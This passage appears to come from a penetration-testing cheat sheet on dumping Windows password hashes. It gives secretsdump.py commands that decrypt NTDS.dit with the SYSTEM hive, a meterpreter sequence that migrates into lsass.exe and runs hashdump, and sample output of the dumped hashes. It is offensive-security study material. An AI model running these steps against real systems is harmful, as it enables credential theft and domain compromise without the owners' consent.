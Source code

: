 ```
```

NTDS.dit is the file that contains hashes but it is encrypted with SYSTEM hive. So make use of SYSTEM hive, decrypt the file and store hashes in plain text: [secretsdump.py](https://github.com/fortra/impacket)

```
$  secretsdump.py -system registry/SYSTEM -ntds Active\
Directory/ntds.dit LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Target system bootKey: 0x3b53edaa727f0bbbc56bed5beb9a9530
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 05b651dcf420b842402b9d3cf3508e6a
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c3db44d312f154d162607
ee52628ace3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:2a9fa667f0d1b99b758767e68ea4e
c52:::
...
```

#### Get Windows 10 Password Hashes: Use meterpreter

1. Spawn an initial process
2. Migrate the process into ones inside of lsass.exe
3. Dump hashes

```
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > ps -S lsass.exe
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
620 480 lsass.exe x64 0 NT AUTHORITY\SYSTEM
C:\Win...\System32\lsass.exe
meterpreter > migrate 620
[*] Migrating from 1248 to 620...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089
c0:::
susan:1000:aad3b435b51404eeaad3b435b51404ee:864d8a2947723c4264598997c1d67a83:::
Reads password hashes
```

or shorter version is:

```
meterpreter > migrate -N lsass.exe
```

#### Get Windows 10 Password Hashes: Use Mimikatz
